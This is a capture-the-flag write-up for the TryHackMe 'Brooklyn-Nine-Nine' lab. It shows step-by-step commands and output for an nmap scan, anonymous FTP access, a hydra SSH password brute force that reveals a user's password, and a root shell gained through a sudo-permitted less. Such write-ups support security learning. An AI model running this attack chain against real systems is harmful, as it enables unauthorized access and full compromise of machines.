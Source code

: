 # Brooklyn-Nine-Nine

**IP:** 10.10.75.244  
**Platform:** THM  
**Difficulty:** Easy  
**OS:** Linux  
**Date:** 07/06/2025

## Reconnaissance

```bash
nmap -sC -sV -T4 10.10.75.244 -oA nmap/Brooklyn-Nine-Nine
```

| Port | Service | Version |
|------|---------|---------|
| 21 | ftp | vsftpd 3.0.3 |
| 22 | ssh | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 |
| 80 | http | Apache httpd 2.4.29 |

## Enumeration

Anonymous login was enabled on the FTP server
```bash
ftp 10.10.75.244 21 -i

Connected to 10.10.75.244.
220 (vsFTPd 3.0.3)
Name (10.10.75.244:wither): anonymous
331 Please specify the password.
Password: 
230 Login successful.
```

## Exploitation

There was a text file in the FTP server containing a note to `jake`. The note suggested that `jake`'s password may be weak.
```bash
dir

...
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
...
mget *
...
226 Transfer complete.
...

exit
221 Goodbye.
                                                                                                       
cat note_to_jake.txt 

From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine          
```

So I bruteforced `jake`'s password with `hydra` to reveal his credentials `jake:987654321`.
```bash
hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.75.244 -t 10 -vI

...
[22][ssh] host: 10.10.75.244   login: jake   password: 987654321
...
```

## Privilege Escalation

I used his password to SSH into the machine, and found that he could run `/usr/bin/less` with NOPASSWD sudo permissions.
```bash
ssh jake@10.10.75.244

sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
jake@brookly_nine_nine:~$ sudo less /etc/profile
```

I used this to spawn a privileged shell by running `less` on a file as `root`, then executing `/bin/sh`.
```bash
sudo less /etc/profile
!/bin/sh

id
uid=0(root) gid=0(root) groups=0(root)
```

User flag was in `/home/holt/user.txt`.
```bash
find / -iname "user.txt" 2>/dev/null
/home/holt/user.txt

cat /home/holt/user.txt
```

`root` flag was in `/root/root.txt`.
```bash
cat /root/root.txt
```

---
#nmap #hydra #ftp-anon #ssh-bruteforce #sudo-less #gtfobins #weak-password #linux-privesc #thm